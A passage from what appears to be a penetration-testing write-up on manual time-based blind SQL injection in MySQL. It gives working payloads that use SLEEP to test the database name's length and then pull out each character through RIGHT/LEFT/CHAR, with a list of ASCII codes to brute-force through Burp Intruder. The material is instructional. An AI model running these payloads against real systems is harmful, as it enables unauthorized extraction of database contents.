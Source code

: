 ```sql
28 AND (IF(LENGTH(SCHEMA()) LIKE 8, SLEEP(2), null))
```

which causes a delay as you can see in the following capture

![](/assets/images/2024-03-19-human-1-sqlmap-0-defeating-automation-through-manual-exploitation/exploitation-weap-payload-1.png)

This capture shows that the *SCHEMA* function works correctly and that it has 8 characters. Now it is only necessary to apply the payload that we have discovered to find out each of the characters of the string. The name of a database in MySQL can only be composed of the following characters 

```html
a-z,A-Z,0-9,_,$
```

whose associated ASCII codes are

```html
97, 98, 99, 100, 101, 102, 103, 104, 105, 106, 107, 108, 109, 110, 111, 112, 113, 114, 115, 116, 117, 118, 119, 120, 121, 122, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 95, 36
```

Therefore, to find out which is the name of the database, it is only necessary to send the following payload

```sql
28 AND (IF(RIGHT(LEFT(SCHEMA(),i),1) LIKE CHAR(j), SLEEP(2), null))
```

for *i = 1, ..., 8* and *j = each of the ASCII codes*, which is easy to do using the burp intruder. The responses that trigger a delay are those associated with correct characters.

For example, the following payload

```sql
28 AND (IF(RIGHT(LEFT(SCHEMA(),6),1) LIKE CHAR(97), SLEEP(2), null))
```

triggers a delay, as you can see in the following capture
